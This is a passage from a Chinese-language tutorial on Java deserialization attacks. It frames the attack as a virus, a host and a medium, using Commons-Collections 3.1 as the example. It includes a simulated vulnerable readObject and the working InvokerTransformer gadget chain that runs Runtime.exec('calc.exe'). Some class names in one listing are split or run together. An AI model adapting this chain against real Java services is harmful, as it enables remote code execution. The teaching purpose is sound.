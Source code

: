```java
          try {
              //用来模拟当readObject的时候，对自身的属性进行了一些额外的操作
              reflectionChains= (ReflectionChains) stream.readFields().get("reflectionChains",null);
              reflectionChains.execute();
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
}
```

# 实施攻击的三个条件

为了实现一个攻击行为，我们需要从目标的系统中找到如下三个条件相关的类，然后将他们合理利用起来。根据漏洞利用过程我们将这三个条件比喻成三个模块以便于理解。

- 无德的病毒

无德的病毒指的是,依托Java本身的特性，将恶意代码包装到一个正常的调用流程里，使得在被触发的时候执行恶意的代码逻辑

- 无辜的宿主

无辜的宿主只的是最终被序列化的对象，无辜的原因在于该对象在实现自己的readObject方法的时候并没有意识到自身的逻辑在对自身属性进行操作的时候会被恶意代码寄生。

- 无良的媒介

无良的媒介指的是，用来将无德的病毒层层包装之后，放入宿主对象的一系列工具类，他们被创造的本意不是为了给病毒利用，而是被攻击者用来将恶意的代码包装到宿主能够接受的类型中。

现在我们将以 Commons-collections 3.1 被初次爆出反序列化漏洞的事件为例子，展示在攻击过程中需要构建的要素。

## 无德的病毒(一个可以进行序列化的恶意对象)

在利用漏洞之前，我们需要找到一个可以实现执行恶意代码的工具类，他们的作用是将我们的恶意代码伪装起来，并且在一个合理的时机里触发我们的恶意代码。

在上述我们构造的模拟漏洞中，ReflectionObject，ReflectionChains 就承担了将恶意代码包装到属性中的行为，并且可以在一个合理的时间中爆发。

在Commons-collections 3.1 的反序列化漏洞中如下的几个类就可以利用来包装我们的恶意代码。

```java
org.apache.commons.collections.Transformerorg.apache.commons.collections.functors.ChainedTransformer
org.apache.commons.collections.functors.ConstantTransforme
rorg.apache.commons.collections.functors.InvokerTransformer
```

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe",}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
//测试我们的恶意对象是否可以被序列化
ByteArrayOutputStream out = new ByteArrayOutputStream();
ObjectOutputStream objOut = new ObjectOutputStream(out);
objOut.writeObject(transformerChain);
//执行以下语句就可以调用起计算器
transformerChain.transform(null);
```
